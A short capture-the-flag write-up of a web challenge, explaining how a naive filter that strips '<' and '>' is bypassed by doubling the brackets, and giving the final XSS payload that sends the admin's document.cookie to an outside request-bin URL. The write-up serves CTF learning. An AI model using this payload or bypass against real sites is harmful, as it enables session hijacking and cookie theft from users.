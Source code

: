 # The Confused Deputy

This was a fairly easy web challenge with some very easy js injection. 

Looking at the source you can see that a request is made to `http://chall.csivit.com:30256/view` by the admin to view your colour. You can then specify a url and a colour for the admin to use.

I set up a request bin at `https://ennfyqj04serj.x.pipedream.net` so that I easily could monitor requests made to that url. But setting the url that the admin visits to anything outside of `http://chall.csivit.com:30256/view` seemed to throw an error. However I can set the colour to anything I like.

Looking at the source of `http://chall.csivit.com:30256/` it is clear that the only form of santitising is that "<" or ">" are replaced with "". This means that later on I could use ">>" in the place of ">" and "<<" in the place of "<".

The final exploit looked like the following
> }<</style>>`;<<img src=x onerror=document.location="https://ennfyqj04serj.x.pipedream.net/?c="+document.cookie;>>

Everything before and including the first semi-colon is used to escape the tags/quotes which the url is in.

The admin cookie is then sent to `https://ennfyqj04serj.x.pipedream.net/?c="+document.cookie` and the cookie is your flag.

